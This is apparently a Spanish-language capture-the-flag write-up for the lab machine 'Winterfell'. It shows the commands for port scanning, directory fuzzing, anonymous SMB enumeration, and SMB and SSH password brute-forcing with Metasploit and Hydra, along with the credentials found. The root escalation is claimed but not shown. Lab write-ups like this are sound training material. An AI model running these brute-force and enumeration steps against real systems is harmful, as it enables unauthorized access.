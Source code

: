 # 🧊 Máquina: Winterfell

**Nivel:** Fácil
**Descripción:**
Winterfell es una máquina vulnerable de nivel fácil orientada a pruebas de intrusión en un entorno controlado. El objetivo es comprometer el sistema identificando vulnerabilidades a través de diversos vectores y técnicas, desde el reconocimiento inicial hasta la escalada de privilegios.

**Objetivo:**
Obtener acceso como usuario privilegiado (root) explotando debilidades en los servicios expuestos de la máquina.

> **Nota:** Durante la práctica, la máquina presentó inconsistencias en su comportamiento (por ejemplo, páginas que no cargaban correctamente y problemas al interactuar con el servicio SSH), lo cual requirió reiniciar el entorno varias veces y adaptar los procedimientos al entorno real.

---

## 🔧 Despliegue de la Máquina

Se descarga y despliega la máquina con los siguientes comandos:

```bash
unzip winterfell.zip
sudo bash auto_deploy.sh winterfell.tar
```

![](/Winterfell/Imagenes/Logo.png)
![](/Winterfell/Imagenes/Inicio.jpeg)

Verificamos conectividad con un `ping`:

```bash
ping -c 4 172.17.0.2
```

![](/Winterfell/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

Realizamos un escaneo completo de puertos para identificar los servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Puertos abiertos detectados:

* **22/tcp** – SSH
* **80/tcp** – HTTP
* **139/tcp**, **445/tcp** – Servicios SMB/NetBIOS

![](/Winterfell/Imagenes/Puertos.jpeg)

Usamos un script personalizado para extraer los puertos relevantes:

```bash
extractPorts allPorts.txt
```

Escaneo con detección de versiones y scripts NSE:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![](/Winterfell/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis del Servicio Web (HTTP)

Accedemos al sitio web en el puerto 80. Inicialmente no cargaba correctamente, por lo que fue necesario reiniciar la máquina varias veces.

![](/Winterfell/Imagenes/Pagina.jpeg)

Al inspeccionar el código fuente, se identifican nombres que podrían estar relacionados con usuarios del sistema:

![](/Winterfell/Imagenes/CodigoFuente.jpeg)

---

## 🧭 Fuzzing de Directorios

Utilizamos **Gobuster** para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

Se encuentra el directorio `/dragon`:

![](/Winterfell/Imagenes/Gobuster.jpeg)

Dentro se encuentran referencias a temporadas de una serie, posiblemente útiles como contraseñas:

![](/Winterfell/Imagenes/Directorio.jpeg)
![](/Winterfell/Imagenes/Contraseñas.jpeg)

Guardamos posibles usuarios y contraseñas en archivos `usuarios.txt` y `contraseña.txt`.

![](/Winterfell/Imagenes/Librerias.jpeg)

---

## 📁 Enumeración de Recursos SMB

Enumeramos los recursos compartidos con:

```bash
smbclient -L 172.17.0.2 -N
```

![](/Winterfell/Imagenes/Compartido.jpeg)

---

### 🔧 Análisis del Servicio RPC (SMB)

Se utilizó el comando:

```bash
rpcclient -U "" -N 172.17.0.2
```

Luego, ejecutamos:

```bash
enumdomusers
```

Esto nos muestra usuarios del dominio, entre ellos **jon**.

> **🛠 Explicación técnica:**
> `rpcclient` permite interactuar con el servicio RPC de SMB en Windows/Linux. Al usar `-U ""` y `-N`, se accede de forma anónima. El comando `enumdomusers` permite enumerar usuarios del dominio, útil para ataques de fuerza bruta u obtención de acceso.

![](/Winterfell/Imagenes/Usuario.jpeg)

---

### 📂 Acceso al recurso SMB como usuario

Conectamos al recurso compartido `shared` usando el usuario **jon**:

```bash
smbclient -U 'jon' //172.17.0.2/shared
```

Descargamos el archivo disponible:

```bash
get proteccion_del_reino
```

![](/Winterfell/Imagenes/smbdescarga.jpeg)
![](/Winterfell/Imagenes/smbls.jpeg)

---

## 🛠 Uso de Metasploit para SMB Login Bruteforce

Utilizamos el módulo de Metasploit `auxiliary/scanner/smb/smb_login` para forzar inicio de sesión SMB:

Configuración del módulo:

```
set RHOSTS 172.17.0.2
set SMBUser jon
set PASS_FILE /ruta/a/contraseña.txt
set THREADS 10
```

Resultado exitoso:

```
[+] 172.17.0.2:445 - Success: .\jon:seacercaelinvierno
```

![](/Winterfell/Imagenes/Metaexploit.jpeg)

---

## 🔐 Extracción y Decodificación de Contraseña

El archivo descargado contenía una cadena en base64:

```bash
cat proteccion_del_reino
echo "aGlqb2RlbGFuaXN0ZXI=" | base64 --decode
```

Resultado:

```text
hijodelanister
```

![](/Winterfell/Imagenes/Cat.jpeg)
![](/Winterfell/Imagenes/Bash64.jpeg)

---

## 🐍 Ataque de Fuerza Bruta a SSH

Con usuarios y contraseña decodificada:

```bash
hydra -L usuarios.txt -p hijodelanister ssh://172.17.0.2
```

Se obtiene acceso exitoso con:

* **Usuario:** jon
* **Contraseña:** hijodelanister

![](/Winterfell/Imagenes/Hydra.jpeg)

---

## 🔑 Acceso a la Máquina vía SSH

Ingresamos al sistema:

```bash
ssh jon@172.17.0.2
```

Verificamos permisos sudo:

```bash
sudo -l
```

Se logra escalada de privilegios hasta `root`.

![](/Winterfell/Imagenes/SSH.jpeg)
![](/Winterfell/Imagenes/root.jpeg)

---

## 🏁 Conclusión

Durante el análisis de la máquina **Winterfell**, se identificaron múltiples vectores de ataque:

* Enumeración efectiva de servicios web y SMB.
* Exposición de archivos con contraseñas en texto plano.
* Uso de herramientas como Gobuster, SMBClient, Metasploit y Hydra para automatizar y forzar accesos.
* Decodificación de información sensible y acceso al sistema vía SSH.

A pesar de los inconvenientes técnicos presentados, se logró cumplir con el objetivo de obtener acceso como superusuario (root), evidenciando la importancia de una configuración segura de servicios y la protección de información sensible.

